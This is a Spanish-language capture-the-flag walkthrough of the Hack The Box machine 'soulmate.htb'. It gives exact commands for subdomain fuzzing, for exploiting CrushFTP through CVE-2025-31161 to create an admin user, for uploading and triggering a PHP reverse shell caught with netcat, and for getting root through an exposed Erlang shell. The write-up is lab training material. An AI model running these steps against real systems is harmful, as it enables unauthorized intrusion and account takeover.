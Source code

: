 ## Reconocimiento
Empezaremos haciendo uso de [[NMAP]] para hacer un reconocimiento inicial
`nmap -sSCV -p- --open --min-rate 5000 -n -Pn -vvv <IP>`

Nos encontramos abiertos los puertos `22/ssh` `80/HTTP`
Navegamos al puerto `80` vía web y nos encontramos una web `soulmate.htb` que la añadiremos al `/etc/hosts` junto con la IP correspondiente de la maquina, volvemos a recargar el navegador y ya nos carga la web.

Haremos fuzzing sobre los directorios con [[GOBUSTER]] `gobuster -u http://soulmate.htp` una vez hemos hecho esto y no hemos encontrado nada relevante

Haremos fuzzing de subdominios con [[FFUF]] `ffuf -u http://soulmate.htb -H "Host: FUZZ.soulmate.htb" \ -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-5000.txt -fw 4`
Encontramos un dominio llamado `ftp.soulmate.htb` así que navegamos a el.

Nos encontramos una web de gestión de FTP llamado `CrushFTP`, buscamos en el código fuente y encontramos la versión `11.W.657`, navegamos por internet en búsqueda de vulnerabilidades que haya habido y encontramos el CVE `CVE-2025-31161`
## Explotación
Para poder explotarlo nos descargamos el repositorio `git clone https://github.com/Immersive-Labs-Sec/CVE-2025-31161` y ejecutamos el fichero `.py` 
`python cve-2025-31161.py --target_host ftp.soulmate.htb --port 80 --target_user root --new_user test --password admin123`

Con esto nos creara un usuario `test::admin123`

Accedemos a la web y en la parte de `Admin` en las opciones de usuario `User Option` nos encontramos diversos usuarios, seleccionamos a `ben` por que es un usuario raso y le cambiamos la contraseña.
Iniciamos sesión como `ben` y subimos una Shell inversa en la carpeta `/webProd`

Usaremos la siguiente Shell `https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php`
En el archivo tenemos que modificar la IP de escucha y el PUERTO

En la maquina atacante nos ponemos en escucha por ese puerto con [[NETCAT]] con `nc -lnvp 1234`

Ejecutamos la Shell con curl `curl http://soulmate.htb/shell.php`

Y obtendremos una reverse Shell como `ben`

## Escalada de Privilegios
Nos compartimos un `LinPEAS.sh` a la Shell obtenida y lo ejecutamos.

Obtendremos una salida que nos indica que hay un servicio corriendo `/usr/local/lib/erlang_login/start.escript`
Lo examinamos  `cat /usr/local/lib/erlang_login/start.escript`

Vemos que están guardadas las contraseñas del usuario `ben::HouseH0ldings998` accedemos al usuario con `ssh ben@soulmate`

Para la escala a root en el `LinPEAS.sh` encontramos un puerto `2222` abierto en el `localhost` accedemos a el desde el usuario `ben` con `ssh ben@localhost -p 2222`

Obtendremos una Shell de Erlang
Buscamos en internet como funciona este tipo de Shell y se ejecutan comandos a través de `os:cmd("comando").`
Con esto haremos un `os:cmd("id").` y vemos que somos root .